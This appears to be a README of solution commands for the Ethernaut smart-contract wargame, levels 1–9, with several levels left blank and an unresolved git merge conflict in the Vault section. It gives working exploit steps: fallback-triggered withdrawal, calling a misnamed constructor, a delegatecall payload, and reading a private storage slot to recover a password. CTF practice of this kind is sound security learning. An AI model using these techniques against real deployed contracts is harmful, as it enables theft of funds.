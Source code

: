 # 1. Hello Ethernaut
```
contract.info()

contract.info1()

contract.info2()

contract.infoNum()

contract.info42()

contract.theMethodName()

contract.method7123949()

contract.password()

contract.authenticate("ethernaut0")

```
---
# 2. Fallback
```
contract.contribute.sendTransaction({from: player, value: toWei("0.0001")})

contract.sendTransaction({from: player, value: toWei(0.0000001)})

contract.withdraw()
```
---
# 3. Fallout
```
contract.Fal1out.sendTransaction({from: player, value: toWei("0.00001")})
```
# 4. Coin Flip

---
# 5. Telephone

---
# 6. Token

---
# 7. Delegation
```
contract.sendTransaction({from: player, to: this, value:0, data: "0xdd365b8b" })
```
---
 # 8. Force

---
 # 9. Vault
<<<<<<< HEAD
`web3.eth.getStorageAt(instance, "1")`
`contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")`
---

=======
 ```
 web3.eth.getStorageAt(instance, "1")
 ```
>>>>>>> 62ddb36 (feat:updeated-README)

